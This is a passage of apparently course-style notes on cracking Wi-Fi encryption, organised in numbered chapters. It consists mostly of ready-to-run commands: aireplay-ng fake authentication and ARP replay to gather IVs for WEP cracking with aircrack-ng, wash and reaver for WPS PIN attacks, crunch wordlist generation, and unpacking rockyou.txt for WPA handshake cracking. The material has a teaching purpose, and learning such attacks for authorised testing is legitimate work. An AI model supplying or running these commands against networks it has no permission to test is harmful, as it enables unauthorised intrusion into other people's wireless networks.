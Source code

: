 ```sh
aireplay-ng --fakeauth 0 -a [NetworkMac] -h [monMac] mon0
```

## chapter 22

- Wait for an ARP packet.
- Capture it, and replay it(retransmit it).
- This causes the AP to produce another packet with a new IV.
- Keep doing this till we have enough IVs to crack the key.

```sh
aireplay-ng --arpreplay -b [NetworkMac] -h [monMac] mon0
aircrack-ng arpreplay-01.cap
```

## chapter 23

WPA / WPA2 Cracking

- Both can be cracked using the same methods.
- Made to address the issues in WEP.
- Much more secure.
- Each packet is encrypted using a unique temporary key.

Packets contain no useful infomation.

## chapter 24

```sh
wash --interface mon0

aireplay-ng --fakeauth 30 -a [NetworkMac] -h [monMac] mon0

reaver --bssid [NetworkMac] --channel 1 --interface mon0 -vvv --no-associate
```

## chapter 26

```sh
$ crunch [min] [max] [characters] -t [pattern] -o [FileName]
```

## chapter 27

Two things needed to crack WPA/WPA2:
- 4-way handshake.
- wordlist.
  
### use the default wordlist in kali
```sh
gzip -d /usr/share/wordlists/rockyou.txt.gz
```
